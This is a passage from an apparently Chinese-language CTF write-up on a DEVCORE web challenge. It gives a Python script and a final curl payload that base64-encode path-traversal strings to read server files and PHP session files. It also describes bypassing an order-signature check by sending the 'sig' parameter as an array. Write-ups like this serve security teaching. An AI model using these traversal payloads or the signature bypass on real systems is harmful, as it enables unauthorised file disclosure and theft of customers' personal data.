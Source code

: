 ```python=
            'id': file_path
        }

        response = requests.get(url, params=params)
        print(response.status_code)
        print(response.text)


def sessionMode():
    while True:
        file_path = base64.b64encode(('../../../../../../../../../../../../tmp/sess_' + input()).encode('utf-8')).decode('utf-8')
        params = {
            'id': file_path
        }

        response = requests.get(url, params=params)
        print(response.status_code)
        print(response.text)
```
* 之後在 `/proc/self/mounts` 有找到一些關鍵的路徑
```bash=
/dev/sda /etc/hosts ext4 rw,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /etc/resolv.conf ext4 rw,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /etc/hostname ext4 rw,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /usr/share/nginx/images ext4 rw,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /usr/share/nginx/b8ck3nd ext4 ro,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /usr/share/nginx/frontend ext4 ro,relatime,errors=remount-ro,data=ordered 0 0
/dev/sda /usr/local/etc/php/php.ini ext4 ro,relatime,errors=remount-ro,data=ordered 0 0
```
* 我在 `php.ini` 卡滿久的，想說怎麼沒有東西（怒，直接跑去打 lol，之後 @txya900619 找到在 `/usr/share/nginx/frontend` 跟 `/usr/share/nginx/b8ck3nd` 下面

### Final paylaod
```bash=
curl http://web.ctf.devcore.tw/image.php?id=Li4vLi4vLi4vLi4vLi4vdXNyL3NoYXJlL25naW54L2Zyb250ZW5kL2luY2x1ZGUucGhw
```

## 弱點 02：Broken Access Control

### CVSS
Score:7.5, CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

### 風險描述
攻擊者可以透過此弱點取得其他使用者的訂單資料，包括姓名、電子郵件、地址等。

### 弱點細節
雖然訂單資訊頁面存在 sig 參數作為簽名驗證，但由於程式邏輯存在缺陷未妥善處理當 sig 參數為 Array 型態的例外情況，導致可以繞過簽名驗證，同時 id 參數為整數流水號，攻擊者可以輕易列舉出所有訂單資料。
